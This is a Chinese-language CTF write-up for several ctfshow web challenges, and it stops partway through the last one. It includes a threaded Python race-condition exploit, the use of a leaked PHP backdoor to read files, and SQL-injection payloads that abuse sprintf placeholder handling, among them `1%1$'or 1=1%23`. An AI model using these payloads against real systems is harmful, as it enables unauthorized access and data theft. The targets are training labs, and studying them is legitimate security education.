 #### 红包题第六弹

==**对网上搜寻的题解进行一些勘误**==

实际上有fastcoll生成的相同的MD5值的文件仍然绕不过第一层的md5_file，因为新生成的两个文件的md5值才相同，而与源文件不同，**本题实际考察的是条件竞争**，通过并发编程实现先后两层的绕过

##### 信息收集

首先有hint提示，不是SQL注入，可以发现源码，于是使用dirmap扫描出来有网站备份文件，解压后，代码如下：

```php
function receiveStreamFile($receiveFile){
 
    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA'])? $GLOBALS['HTTP_RAW_POST_DATA'] : '';
 
    if(empty($streamData)){
        $streamData = file_get_contents('php://input');
    }
    if($streamData!=''){
        $ret = file_put_contents($receiveFile, $streamData, true);
    }else{
        $ret = false;
    }
    return $ret;
}
if(md5(date("i")) === $token){
	
	$receiveFile = 'flag.dat';
	receiveStreamFile($receiveFile);
	if(md5_file($receiveFile)===md5_file("key.dat")){
		if(hash_file("sha512",$receiveFile)!=hash_file("sha512","key.dat")){
			$ret['success']="1";
			$ret['msg']="人脸识别成功!$flag";
			$ret['error']="0";
			echo json_encode($ret);
			return;
		}

			$ret['errormsg']="same file";
			echo json_encode($ret);
			return;
	}
			$ret['errormsg']="md5 error";
			echo json_encode($ret);
			return;
} 

$ret['errormsg']="token error";
echo json_encode($ret);
return;
```

##### 阅读源码

首先有一个对token的判断，于是我们抓包看看，

![](D:\0-CTF\Documents\WP\images\ctfshow_红包题6_1.jpg)

发现确实有一个token，是对当前日期做了一个MD5的编码，可以用python实现，然后设置了一个receivefile为flag.dat，然后调用`receiveStreamFile($receiveFile);`，可以发现是需要用php://input获取文件流，然后返回一个文件，接下来需要自己传上去的文件与已存在的`key.dat`的MD5要一致，sha512不一致，即可打印出flag

##### 解题

那么我们的思路是，首先获得key.dat，首先访问一下这个文件，emmm，果然直接下载了，那么第一层的绕过我们直接就使用了`key.dat`文件，第二层的sha1值我们随便上传一个字符串即可，所以我们需要**并发编程，将$receiveFile中的内容在极短时间内进行替换**，这里我们可以编写一个python脚本来进行解题。

payload:

```python
import requests
import time
import hashlib
import threading

#这里为什么用分钟数生成：因为通过抓包发现改变分钟后token值才会变化
i=str(time.localtime().tm_min)
#生成token
m=hashlib.md5(i.encode()).hexdigest()
url="http://063e4649-b8da-4090-8a6b-da6b11fa5f07.challenge.ctf.show/check.php?token={}&php://input".format(m)

def POST(data):
    try:
        r=requests.post(url,data=data)
        if "ctfshow" in r.text:
            print(r.text)
            pass
        # print(r.text)
        pass
    except Exception as e:
        print("somthing went wrong!")
        pass
    pass

with open('key.dat','rb') as t:
    data1=t.read()
    pass
for i in range(50):
    threading.Thread(target=POST,args=(data1,)).start()
for i in range(50):
    data2='emmmmm'
    threading.Thread(target=POST,args=(data2,)).start()
```

得出：

```
{"success":"1","msg":"\u4eba\u8138\u8bc6\u522b\u6210\u529f!ctfshow{6f98bbcc-82e2-4c3e-a46e-0a8f8ad403cd}","error":"0","errormsg":""}
```



#### 红包题第七弹

##### 信息收集

一开始进去就是一个phpinfo的页面，发现disable_function了一些函数，猜测会用到shell命令，但是没有多余的信息，于是使用dirmap扫描，发现有.git文件，直接访问得到403，无果，可能存在git泄露。

##### 解题

于是尝试获取源码，先后使用Git Hack和Git_Extract获取，Githack只获取到了存在index.php和backdoor.php两个文件名，另一个获取到了源码，如下：

![](D:\0-CTF\Documents\WP\images\ctfshow_红包题7_1.jpg)

得到Letmein后门，于是用中国蚁剑连接，发现读取不了文件，果然是disable_function在起作用，那么我们再使用一下插件，发现也打不开，emmm，那就手工吧，现在是蚁剑已经获取到了文件目录，在`var/www/flag.txt`可能存在flag，于是我使用如下payload:

`Letmain=print_r(highlight_file("var/www/flag.txt"))`，成功解题



#### 萌新赛-给她

##### 信息收集

进去是一个SQL语句展示，emmm，那就写几句SQL注入看看，抓包，用字典FUZZ，一个没出，发现单引号都被转义了，猜测后台是有一个`addslashes`函数，那么我们可以联想到`sprintf`函数与`addslashes`函数连用造成的逻辑漏洞，但是不确定，目录扫描可不能少，扫一下，发现有git，直接访问报403，那用GitHack拉取一下，发现`hint.php`

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_1.jpg)

发现确实如我们所想，存在sprintf函数

##### sprintf函数的底层逻辑漏洞

由于该函数的底层逻辑上只对15中占位符有分支，而其他的则直接没处理，而造成的被替换为空字符，如：

```php
<?php
$sql="select * from user where username='%\' and 1=1 #';";
$user='admin';
echo sprintf($sql,$user);
?>
//打印出来：select * from user where username='' and 1=1 #';
```

**可被替换为空的占位符：`%\`,`%1$\`**

##### 解题

那么我可以构造如下payload：`name=admin&pass=1%1$'or 1=1%23`

在后台应该是：`select * from user where name ='admin' and pass='1'or 1=1#'`

返回了一个报错页面，发现不是原生的报错，check一下源码：

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_2.jpg)

发现存在hint，那么文件位置我们已经知晓，下面就是如何读取文件，首先想到的是用load_file函数，但是没搞出来，然后无意间抓了一个包，好家伙，**cookie里竟然藏了一个file**，抓出来转16进制，得到`flag.txt`，那么我们放入`/flag`的16进制进去`2f666c6167`，放包，得到flag：`ctfshow{9cd199ec-f7ef-41e0-9a1f-234d9ab5628d}`

![](D:\0-CTF\Documents\WP\images\ctfshow_给她_3.jpg)



#### 萌新赛-萌新记忆

##### 信息收集

首先进去是一堆无用界面，都是静态的图片触发，没有交互，那么必备程序，扫后台，**启动dirmap，扫出来了，芜湖~，发现admin界面**

![](D:\0-CTF\Documents\WP\images\ctfshow_萌新记忆_1.jpg)

![](D:\0-CTF\Documents\WP\images\ctfshow_萌新记忆_2.jpg)

那么接下来就是抓包分析，登录抓一个包，然后用字典Fuzz，看看有没有SQLi，这里我首先Fuzz密码，发现都是同一回显，恼，但是**Fuzz登录名的时候爆出来SQL语句错**，嘿嘿，那么肯定是SQLi啦。

![](D:\0-CTF\Documents\WP\images\ctfshow_萌新记忆_3.jpg)

分别有四种回显：`我报警了`，`用户名错误`,`用户名/密码错误`,`原生SQL报错`

第一种明显就是直接黑名单了，`or,select,limit,order by,concat,group_concat,database,....`都被过滤掉了

还剩下，`updataxml,||,as,',(),`

##### 解题

接下来就是探寻如何解题，首先想到报错注入，但是啊，gourp_concat和concat被ban掉了，好像爆不出来
